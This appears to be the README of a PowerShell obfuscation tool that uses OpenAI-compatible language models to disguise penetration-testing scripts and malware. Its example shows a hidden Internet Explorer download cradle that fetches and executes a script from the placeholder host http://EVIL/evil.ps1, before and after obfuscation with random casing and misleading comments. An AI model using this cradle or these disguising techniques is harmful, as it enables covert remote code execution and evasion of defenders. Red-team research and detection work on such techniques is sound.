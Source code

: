 # Invoke-GPTObfuscation
Invoke-GPTObfuscation is a PowerShell Obfuscator that utilizes OpenAI or compatible text-completion models to obfuscate your PowerShell penetration testing code, malware, or any other sensitive script. For Educational & Research purposes only.

This is mostly demonstrational, and will frequently create invalid code.

## Results 

Before:
```powershell
$ie=New-Object -comobject InternetExplorer.Application;
$ie.visible=$False;
$ie.navigate('http://EVIL/evil.ps1');
start-sleep -s 5;
$r=$ie.Document.body.innerHTML;
$ie.quit();
IEX $r
```

After:
```powershell
# generating Log files
$Strawberry = New-Object -CoMObjEcT inTErnETeXPLOreR.Application;
$strawberry.vISiblE = $fAlSe;
$STRaWbeRRy.NAVigatE('HttP://evIl/evil.ps1');
stArT-SlEEp -s 5;

# Updating log directory path
$r = $StrawberrY.DoCument.BoDy.InneRHTML;

# Cleanup
$strawBerRy.quiT();

# Execute payload
IeX $R
```
